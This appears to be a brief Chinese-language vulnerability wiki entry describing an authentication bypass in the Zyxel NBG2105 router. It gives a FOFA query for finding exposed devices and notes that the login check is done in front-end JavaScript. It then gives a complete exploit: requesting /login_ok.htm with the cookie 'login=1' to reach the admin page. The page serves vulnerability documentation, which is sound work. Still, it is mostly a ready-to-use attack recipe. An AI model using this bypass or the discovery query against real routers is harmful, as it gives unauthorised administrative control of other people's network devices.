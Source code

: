 <languages  />

<translate>

漏洞影響
--------

</translate>

    Zyxel NBG2105

FOFA
----

    app="ZyXEL-NBG2105"

![](Xnip2021-04-06_09-32-28.jpg "Xnip2021-04-06_09-32-28.jpg")

<translate> 其中前端文件 `/js/util_gw.js` 存在前端對 `Cookie login`參數的校驗。 </translate>

<translate> 請求如下則會以管理員身份跳轉到 `home.htm`頁面。 </translate>


    http://xxx.xxx.xxx.xxx/login_ok.htm

    Cookie: login=1;

![](Xnip2021-04-06_09-36-42.jpg "Xnip2021-04-06_09-36-42.jpg")